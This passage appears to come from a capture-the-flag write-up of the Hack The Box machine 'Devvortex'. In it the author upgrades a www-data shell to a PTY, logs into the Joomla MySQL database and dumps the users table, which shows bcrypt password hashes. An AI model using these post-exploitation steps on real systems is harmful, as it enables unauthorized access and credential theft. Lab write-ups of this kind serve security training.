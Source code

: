 Before connecting the database

In order to properly interact with MySQL we first need to upgrade our current shell. We use the `script` command to create a new `PTY` using `bash`

```shell
www-data@devvortex:~/dev.devvortex.htb$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
www-data@devvortex:~/dev.devvortex.htb$
```

### SQL

Time to explore the mysql database.

```shell
www-data@devvortex:~/dev.devvortex.htb$ mysql -u lewis -p joomla
mysql -u lewis -p joomla
Enter password: 
[OMITTED]
mysql>
```

Showing the tables.

```
mysql> SHOW TABLES;
SHOW TABLES;
+-------------------------------+
| Tables_in_joomla              |
+-------------------------------+
| sd4fg_action_log_config       |
[OMITTED]
| sd4fg_users                   |
[OMITTED]
71 rows in set (0.00 sec)
```

The `sd4fg_users` looks interesting to look further at.

```shell
mysql> SELECT * FROM sd4fg_users;
SELECT * FROM sd4fg_users;
[OMITTED]
| 649 | lewis      | lewis    | lewis@devvortex.htb | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |     0 |         1 | 2023-09-25 16:44:24 | 2024-04-25 12:11:52 | 0          |                                                                                                                                                         | NULL          |          0 |        |      |            0 |              |
| 650 | logan paul | logan    | logan@devvortex.htb | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |     0 |         0 | 2023-09-26 19:15:42 | NULL
     |            | {"admin_style":"","admin_language":"","language":"","editor":"","timezone":"","a11y_mono":"0","a11y_contrast":"0","a11y_highlight":"0","a11y_font":"0"} | NULL          |          0 |        |      |            0 |              |
[OMITTED]
```
